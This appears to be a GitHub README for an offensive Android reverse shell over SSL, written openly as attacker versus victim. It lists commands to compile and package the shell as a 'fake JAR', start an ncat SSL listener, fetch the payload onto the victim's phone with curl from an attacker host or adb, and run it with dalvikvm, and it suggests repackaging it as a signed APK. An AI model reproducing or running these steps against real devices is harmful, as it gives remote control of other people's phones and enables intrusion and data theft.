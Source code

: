 ## Android Reverse Java Shell using SSL Encryption

## On Attacker machine - Linux -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code to bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 Shell.java TrustAllCertificates.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 Shell.class TrustAllCertificates.class`

#### Create fake JAR file
`zip reverse_ssl.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337 --ssl`

## On Victim device - Android -
`adb push reverse_ssl.jar /sdcard` (if Android Debug Tools is enabled)

or you can just curl 

`curl http://attackingmachine:9999/reverse_ssl.jar -o /sdcard/reverse_ssl.jar`<br/>

and then run the reverse shell using dalvikvm from Termux:

`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse_ssl.jar Shell`

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner.

## Credits

Inspired from: https://gist.github.com/FrankSpierings/e330e3aea3152f816c202b883887dd60
